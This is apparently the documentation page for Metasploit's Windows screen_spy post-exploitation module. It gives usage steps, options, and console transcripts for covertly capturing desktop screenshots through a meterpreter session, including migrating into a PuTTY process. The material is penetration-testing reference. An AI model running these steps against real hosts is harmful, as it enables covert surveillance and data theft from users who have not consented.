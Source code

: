 ## Vulnerable Application

This module will incrementally take desktop screenshots from the
host. This allows for screen spying which can be useful to determine
if there is an active user on a machine, or to record the screen for
later data extraction.

Note: As of March, 2014, the `VIEW_CMD` option
has been removed in favor of the Boolean `VIEW_SCREENSHOTS` option,
which will control if (but not how) the collected screenshots will
be viewed from the Metasploit interface.

## Verification Steps

  1. Start msfconsole
  2. Get meterpreter session
  3. Do: ```use post/windows/gather/screen_spy```
  4. Do: ```set SESSION <session id>```
  5. Do: ```run```

## Options

### SESSION
The session to run the module on.

### RECORD
If set to true, record all screenshots to disk by saving them to loot.

### PID
PID to migrate into before taking the screenshots. If no PID is specified, default to current PID.

## Scenarios

### Windows 10 20H2 (No Database Connected But RECORD Flag Set)
```
msf6 exploit(multi/handler) > use post/windows/gather/screen_spy
msf6 post(windows/gather/screen_spy) > set SESSION 1
SESSION => 1
msf6 post(windows/gather/screen_spy) > show options

Module options (post/windows/gather/screen_spy):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   COUNT             6                yes       Number of screenshots to collect
   DELAY             5                yes       Interval between screenshots in seconds
   PID                                no        PID to migrate into before taking the screenshots
   RECORD            true             yes       Record all screenshots to disk by saving them to loot
   SESSION           1                yes       The session to run this module on.
   VIEW_SCREENSHOTS  false            no        View screenshots automatically

msf6 post(windows/gather/screen_spy) > set SESSION 2
SESSION => 2
msf6 post(windows/gather/screen_spy) > run

[*] Capturing 6 screenshots with a delay of 5 seconds
[-] RECORD flag specified however the database is not connected, so no loot can be stored!
[*] Post module execution completed
```

### Windows 10 20H2 (No Database Connected, RECORD flag not set)
```
msf6 exploit(multi/handler) > use post/windows/gather/screen_spy
msf6 post(windows/gather/screen_spy) > set SESSION 2
SESSION => 2
msf6 post(windows/gather/screen_spy) > set RECORD false
RECORD => false
msf6 post(windows/gather/screen_spy) > set VIEW_SCREENSHOTS true
VIEW_SCREENSHOTS => true
msf6 post(windows/gather/screen_spy) > show options

Module options (post/windows/gather/screen_spy):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   COUNT             6                yes       Number of screenshots to collect
   DELAY             5                yes       Interval between screenshots in seconds
   PID                                no        PID to migrate into before taking the screenshots
   RECORD            false            yes       Record all screenshots to disk by saving them to loot
   SESSION           2                yes       The session to run this module on.
   VIEW_SCREENSHOTS  true             no        View screenshots automatically

msf6 post(windows/gather/screen_spy) > run

[*] Capturing 6 screenshots with a delay of 5 seconds
[*] Screen Spying Complete
[*] Post module execution completed
msf6 post(windows/gather/screen_spy) >
```

### Windows 10 20H2 (No Database Connected, RECORD flag not set, PID set to Process to Migrate To)
```
msf6 exploit(multi/handler) > use post/windows/gather/screen_spy
msf6 post(windows/gather/screen_spy) > set SESSION 2
SESSION => 2
msf6 post(windows/gather/screen_spy) > set RECORD false
RECORD => false
msf6 post(windows/gather/screen_spy) > set VIEW_SCREENSHOTS true
VIEW_SCREENSHOTS => true

msf6 post(windows/gather/screen_spy) > sessions -i 2
[*] Starting interaction with 2...

meterpreter > ps -aux

Process List
============

 PID    PPID   Name                   Arch  Session  User                  Path
 ---    ----   ----                   ----  -------  ----                  ----
.....
 8236   1288   taskhostw.exe
 8296   760    svchost.exe
 8424   888    RuntimeBroker.exe      x64   2        DESKTOP-KUO5CML\test  C:\Windows\System32\RuntimeBroker.exe
 8572   3340   MeSuAx.exe
 8636   760    svchost.exe
 8664   8036   putty.exe              x64   2        DESKTOP-KUO5CML\test  C:\Program Files\PuTTY\putty.exe
.....

meterpreter > background
[*] Backgrounding session 2...
msf6 post(windows/gather/screen_spy) > set PID 8664
PID => 8664
msf6 post(windows/gather/screen_spy) > run

[+] Migration successful
[*] Capturing 6 screenshots with a delay of 5 seconds
[*] Screen Spying Complete
[*] Post module execution completed
msf6 post(windows/gather/screen_spy) >
```

### Windows 10 20H2 (Database Connected, RECORD flag set)
```

```